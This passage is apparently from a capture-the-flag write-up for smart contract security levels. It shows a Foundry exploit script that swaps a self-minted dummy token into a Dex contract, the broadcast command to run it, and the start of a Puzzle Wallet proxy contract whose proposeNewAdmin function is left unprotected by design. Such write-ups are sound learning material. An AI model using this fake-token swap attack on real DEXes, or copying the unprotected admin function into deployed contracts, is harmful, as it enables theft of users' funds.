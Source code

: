 ```solidity
            "token2 balance after swap  is ",
            instance.balanceOf(token2, address(instance))
        );

        // dummyToken1.transfer(address(instance),100);//transfering 100 tokens to the Dex contract

        dummyToken1.approve(address(instance), 1000);

        instance.swap(address(dummyToken1), token1, 200);

        console.log(
            "token1 balance after swap  is ",
            instance.balanceOf(token1, address(instance))
        );
    }
}

contract Dummy is ERC20("DummyToken", "Dummy") {
    constructor() {
        _mint(msg.sender, 10000);
    }
}

```

**To run the script**

```
$ source .env
$ forge script script/Level23Solution.s.sol:Level23Sol --rpc-url $RPC_URL --broadcast

```

## Puzzle Wallet

**Level24.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "./helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
```
